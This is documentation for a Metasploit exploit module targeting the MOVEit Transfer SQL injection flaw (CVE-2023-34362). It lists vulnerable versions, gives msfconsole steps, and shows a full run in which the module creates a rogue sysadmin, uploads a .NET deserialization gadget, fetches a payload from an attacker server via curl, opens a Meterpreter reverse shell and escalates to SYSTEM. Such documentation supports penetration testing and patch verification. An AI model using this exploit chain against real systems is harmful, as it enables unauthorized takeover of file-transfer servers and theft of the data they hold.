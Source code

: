 ## Description
This module exploits an SQL injection vulnerability in the MOVEit Transfer web application
that allows an unauthenticated attacker to gain access to MOVEit Transfer’s database. 
Depending on the database engine being used (MySQL, Microsoft SQL Server, or Azure SQL), an
attacker can leverage an information leak be able to upload a .NET deserialization payload.

## Vulnerable Applications
MOVEit Transfer versions:

| Starting Version | Patched Version     |
|------------------|---------------------|
| 2023.0.0         | 2023.0.3 (15.0.3)   |
| 2022.1.x         | 2022.1.7 (14.1.7)   |
| 2022.0.x         | 2022.0.6 (14.0.6)   |
| 2021.1.x         | 2021.1.6 (13.1.6)   |
| 2021.0.x         | 2021.0.8 (13.0.8)   |
| 2020.1.x         | 2020.1.10 (12.1.10) |

# Installation Instructions
1. Installation requires a valid trial license that can be obtained by going here:
https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has intenet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an admin user.

## Options
### LOGIN_NAME  (Required) Will be used as the login name for the system administrator created by the exploit.  The default is random.

### PASSWORD    (Required) Will be used as the password name for the system administrator created by the exploit.  The default is random.

### USERNAME    (Required) Will be used as the user name for the system administrator created by the exploit.  The default is random.

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/windows/http/moveit_cve_2023_34362`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: `set fetch_srvhost <srvhost>`
* Do: `set lhost <lhost>`
* Do: `run`
* Do: **Verify** you get a session

## Scenarios
### Using MOVEit 15.0.0.3 on Windows Server 2022 21H2
```msf
msf exploit(windows/http/moveit_cve_2023_34362) > show options

Module options (exploit/windows/http/moveit_cve_2023_34362):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   LOGIN_NAME  CGN3c8hSeaE      yes       Login Name
   PASSWORD    pnislnpdAWX      yes       Password
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.5.134.242     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                          tasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /api/v1/token    no        Target URI
   USERNAME    wtxRmr5vw        yes       Username
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      lebHSskcwh       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       10.5.135.201     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/moveit_cve_2023_34362) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] [0/10] Get the sessionID and siLockLongTermInstID
[*] [1/10] Create New Sysadmin
[*] [2/10] Get API Token
[*] [3/10] Get Folder ID
[*] [4/10] Begin File Upload
[*] [5/10] Leak Encryption Key
[*] [6/10] Generate Gadget
[*] [7/10] Encrypt Gadget
[*] [8/10] Upload Encrypted Gadget
[*] [9/10] Trigger Gadget
[*] [10/10] Cleaning Up
[*] Sending stage (200774 bytes) to 10.5.134.242
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.242:51176) at 2023-06-21 15:35:47 -0500

meterpreter > sysinfo
Computer        : WIN-ED9OLD6JEO6
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-ED9OLD6JEO6\moveitsvc
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
